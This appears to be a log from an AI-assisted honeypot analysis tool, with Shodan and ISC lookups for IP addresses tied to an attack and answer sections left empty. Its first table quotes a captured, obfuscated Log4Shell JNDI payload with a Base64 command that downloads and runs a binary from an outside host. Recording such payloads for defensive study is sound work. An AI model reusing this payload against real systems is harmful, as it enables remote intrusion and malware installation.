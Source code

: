 | Output | Value |
| --- | --- |
| `http_requests` | `{"GET / HTTP/1.1\nUser-Agent: t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')\nHost: 54.67.87.80:8080\nReferrer: t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')"}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize what is known about the location of the IP addresses involved in the attack.

**Run ID:** `run_kWN19fCk0LVPnlwmy8Q04W8J`

### Funciton Calls
**Step ID:** `step_ibVsfh5IPSbnO5n97TvQz7Am`

**Function called:** `query_ip_data`

| Argument | Value |
| --- | --- |
| `ips` | `['95.214.53.103', '95.214.53.99']` |
| `sources` | `['shodan', 'isc']` |

| Output | Value |
| --- | --- |
| `95.214.53.103` | `{'shodan': {'port22': {'protocol': 'tcp', 'service_name': 'OpenSSH8.2p1 Ubuntu-4ubuntu0.11'}}, 'isc': {'total_reports': 277, 'honeypots_targeted': 142, 'firstseen': '2023-11-28', 'lastseen': '2024-02-02', 'network': '95.214.52.0/22', 'asname': 'MEVSPACE', 'as_country_code': "('PL', None)", 'weblogs': {'count': 92, 'avgauthors': 10, 'avgurls': 1, 'avguser_agents': 1, 'firstseen': '2024-01-15', 'lastseen': '2024-02-01'}, 'threatfeeds': {'forumspam': {'lastseen': '2024-02-02', 'firstseen': '2022-04-19'}}}}` |
| `95.214.53.99` | `{'shodan': {'port22': {'protocol': 'tcp', 'service_name': 'OpenSSH7.6p1 Ubuntu-4ubuntu0.7'}, 'port80': {'protocol': 'tcp', 'service_name': 'Apache httpd2.4.29'}}, 'isc': {'total_reports': 17, 'honeypots_targeted': 12, 'firstseen': '2023-12-13', 'lastseen': '2024-02-05', 'network': '95.214.52.0/22', 'asname': 'MEVSPACE', 'as_country_code': "('PL', None)", 'weblogs': {'count': 88, 'avgauthors': 14, 'avgurls': 1, 'avguser_agents': 1, 'firstseen': '2024-01-23', 'lastseen': '2024-02-02'}, 'threatfeeds': {'ciarmy': {'lastseen': '2024-02-05', 'firstseen': '2023-05-10'}}}}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize what is known about the IP addresses involved in the attack using Shodan data.

**Run ID:** `run_rLxoHbGDeK3pyqhOIuXmL7Df`

<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Summarize what is known about the IP addresses involved in the attack using ISC data.
